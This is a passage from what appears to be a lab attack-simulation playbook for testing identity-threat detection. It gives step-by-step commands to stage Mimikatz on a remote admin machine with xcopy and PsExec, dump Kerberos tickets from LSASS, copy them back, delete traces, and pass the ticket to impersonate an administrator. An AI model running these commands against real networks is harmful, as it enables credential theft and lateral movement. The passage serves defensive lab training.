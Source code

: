 ``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

Press ```d``` when prompted, stating that the "temp" folder is a directory on AdminPC.

![Copy files to AdminPC](media/playbook-escalation-xcopy1.png)

### Mimikatz sekurlsa::tickets

With Mimikatz staged on AdminPC, we'll use PsExec to remotely execute it.

1. Traverse to where PsExec is located and execute the following command:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   That command will execute and export the tickets found in the LSASS.exe process and place them in the current directory, on AdminPC.

2. We need to copy the tickets back over to VictimPC from AdminPC. Since we're only interested in SamiraA's tickets for this example, execute the following command:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   ![Export harvested credentials from AdminPC back to VictimPC](media/playbook-escalation-export_tickets2.png)

3. Let's clean up our tracks on AdminPC by deleting our files.

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > More sophisticated attackers will not touch disk when executing arbitrary code on a machine after gaining administrative privileges on it.

   On our **VictimPC**, we have these harvested tickets in our **c:\temp\adminpc_tickets** folder:

   ![C:\temp\tickets is our exported mimikatz output from AdminPC](media/playbook-escalation-export_tickets4.png)


### Mimikatz Kerberos::ptt

With the tickets locally on VictimPC, it's finally time to become SamiraA by "Passing the Ticket".

1. From the location of **Mimikatz** on **VictimPC**'s filesystem, open a new **elevated command prompt**, and execute the following command:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::ptt c:\temp\adminpc_tickets" "exit"
   ```

   ![Import the stolen tickets into the cmd.exe process](media/playbook-escalation-ptt1.png)
